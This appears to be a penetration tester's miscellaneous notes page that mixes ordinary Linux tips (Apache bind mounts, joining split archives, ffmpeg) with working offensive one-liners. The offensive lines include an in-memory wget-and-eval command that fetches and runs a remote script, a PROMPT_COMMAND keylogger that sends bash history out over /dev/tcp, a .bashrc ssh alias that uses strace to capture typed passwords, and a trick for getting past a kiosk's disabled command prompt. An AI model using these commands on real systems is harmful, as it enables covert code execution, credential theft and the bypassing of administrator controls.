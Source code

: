 # Random

### Cool heredoc&#x20;

* Use when you are on a `/bin/sh` and need to `su` but dont want to go into a full `tty`

```
su - root <<!
Passw0rd
id
ls /root
!
Password: uid=0(root) gid=0(root) groups=0(root)
Desktop  Documents  Downloads  go  Music  Pictures  Public  Templates  thinclient_drives  Videos
```

### Bypass a disabled command prompt with /k

```
# Win+R (To bring up Run Box)
cmd.exe /k "whoami"
```

**Description:** _'This command prompt has been disabled by your administrator...' Can usually be seen in environments such as kiosks PCs, a quick hacky work around is to use /k via the windows run box. This will carry out the command and then show the restriction message, allowing for command execution._

### _Luks On USBs_

* [https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/](https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/)

### Bash In memory exec one liner&#x20;

```
bash -c CMD="`wget -qO- http://<ip>/script.sh`" && eval "$CMD"
```

### Bash Keylogger&#x20;

```
PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'
```

### SSH Client Strace Keylogger

* Poor mans keylogger for ssh client but it works. Add to the users `.bashrc`&#x20;

```
alias ssh='strace   -o   /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh' 
```

* remember to source the `.bashrc`
* `source ~/.bashrc`

### Apache map external drive to webroot

* Create a directory on the external HDD, assuming it is mounted under the `/media` directory, like so:

```
sudo mkdir /media/web_files
```

* Change the ownership of this directory and all the files under it to be owned by the Apache user `www-data` like so:

```
sudo chown -R www-data:www-data /media/web_files/
```

* Create a directory under the web root directory ie `/var/www/html/` like so:

```
sudo mkdir /var/www/html/external_files
```

* Bind the `/media/web_files/` directory to the `/var/www/html/external_files/` directory like so:

```
sudo mount --bind /media/web_files/ /var/www/html/external_files/
```

* All files on the external HDD under the `/media/web_files/` directory will be available for Apache under the `/var/www/html/external_files/` directory and you can link to them in your web page that resides in `/var/www/html/` like so:

```
<a href="external_files/file1.mp4">file1</a>
```

### Unzip a chunked archive

* you will see files ending in .001, .002 etc etc&#x20;
*   You will need to join them first. You may use the common linux app, `cat` as in the example below:

    ```
    cat test.zip* > ~/test.zip
    ```

    This will concatenate all of your `test.zip.001`, `test.zip.002`, etc files into one larger, test.zip file. Once you have that single file, you may run `unzip test.zip`

## [How to convert .mkv file into .mp4 file losslessly?](https://askubuntu.com/questions/50433/how-to-convert-mkv-file-into-mp4-file-losslessly)

```
ffmpeg -i input.mkv -codec copy output.mp4
```
